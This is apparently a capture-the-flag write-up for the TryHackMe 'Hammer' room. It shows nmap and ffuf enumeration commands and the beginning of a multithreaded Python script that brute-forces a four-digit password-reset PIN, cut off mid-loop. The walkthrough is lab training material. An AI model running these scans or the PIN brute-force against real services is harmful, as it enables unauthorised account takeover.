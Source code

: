 ## Hammer
https://tryhackme.com/room/hammer

```
nmap -sC -sV -p- -O ip_target
```

Found 2 open ports:  
`22`  
`1337`

Navigated to:  
`http://ip_target:1337`

A login page appears.

Tried resetting the password, but an email was required.  
That means we need further enumeration.

```
ffuf -u 'http://target_ip:1337/hmr_FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -t 100 -mc all -ic -fw 23
```

`-u:` (URL) — URL with the keyword FUZZ, which will be replaced with words from the dictionary.  
`-w:` (wordlist) — path to the dictionary file from which values will be taken for substitution instead of FUZZ.  
`-t:` (threads) — number of threads (simultaneous requests), speeds up scanning.  
`-mc:` (match code) — filtering by response code.  
`-ic:` (ignore case) — ignore case when comparing strings in the results.  
`-fw:` (filter words) — filter by the number of words in the answer.

Discovered an interesting directory `/logs`.  
Visited:  
`http://target_ip:1337/logs`

![1](https://github.com/user-attachments/assets/15b82944-a77a-4bb0-a59b-80513614b72a)


After password reset, a **PIN code** is required.

Used a **Python brute-force script** found online to automate the attack:

```
import requests
import random
import threading
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry

url = "http://target_ip:1337/reset_password.php"
num_threads = 50
stop_flag = threading.Event()

# Retry mechanism
retry_strategy = Retry(
    total=5,
    backoff_factor=1,
    status_forcelist=[500, 502, 503, 504],
    raise_on_status=False
)

adapter = HTTPAdapter(max_retries=retry_strategy)
session = requests.Session()
session.mount("http://", adapter)

def brute_force_code(start, end):
    for code in range(start, end):
        code_str = f"{code:04d}"
```